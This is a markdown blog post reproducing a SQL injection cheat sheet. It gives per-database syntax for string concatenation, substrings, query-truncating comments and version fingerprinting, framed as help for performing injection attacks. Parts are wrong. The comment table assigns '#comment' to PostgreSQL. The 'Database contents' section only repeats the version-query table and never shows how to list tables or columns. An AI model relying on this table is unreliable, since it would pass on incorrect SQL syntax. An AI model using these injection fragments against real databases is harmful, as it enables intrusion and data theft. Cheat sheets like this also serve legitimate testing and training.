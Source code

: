 Title: SQL Injection Cheat Sheet
Date: 2024-05-19 21:03
Category: web
Slug: sqli-cheat-sheet


# SQL injection cheat sheet

![Photo]({attach}SQLI_CHEAT_SHEET/black-green-cheat-sheet-stamp-black-green-cheat-sheet-stamp-illustration-graphic-concept-108947651.jpg.webp)

This **SQL injection** cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

## String concatenation

You can concatenate together multiple strings to make a single string.

| Oracle         | =='foo'\|\|'bar'==                                           |
|:--------------:|:------------------------------------------------------------:|
| **Microsoft**  | =='foo'+'bar'==                                              |
| **PostgreSQL** | =='foo'\|\|'bar'==                                           |
| **MySQL**      | =='foo' 'bar'== [Note the space between the two strings]<br>==CONCAT('foo','bar')== |
## Substring

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ==ba==.

| Oracle         | ==SUBSTR('foobar', 4, 2)==    |
|:--------------:|:-----------------------------:|
| **Microsoft**  | ==SUBSTRING('foobar', 4, 2)== |
| **PostgreSQL** | ==SUBSTRING('foobar', 4, 2)== |
| **MySQL**      | ==SUBSTRING('foobar', 4, 2)== |

## Comments

You can use comments to truncate a query and remove the portion of the original query that follows your input.

| Oracle         | ==--comment==                                          |
|:--------------:|:------------------------------------------------------:|
| **Microsoft**  | ==/\*comment\*/==                                      |
| **PostgreSQL** | ==\#comment==                                          |
| **MySQL**      | ==-- comment==  [Note the space after the double dash] |

## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

| Oracle         | ==SELECT banner FROM v$version==<br>==SELECT version FROM v$instance== |
|:--------------:|:------------------------------------------------------------:|
| **Microsoft**  | ==SELECT @@version==                                         |
| **PostgreSQL** | ==SELECT version()==                                         |
| **MySQL**      | ==SELECT @@version==                                         |

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

| Oracle         | ==SELECT banner FROM v$version==<br>==SELECT version FROM v$instance== |
|:--------------:|:------------------------------------------------------------:|
| **Microsoft**  | ==SELECT @@version==                                         |
| **PostgreSQL** | ==SELECT version()==                                         |
| **MySQL**      | ==SELECT @@version==                                         |
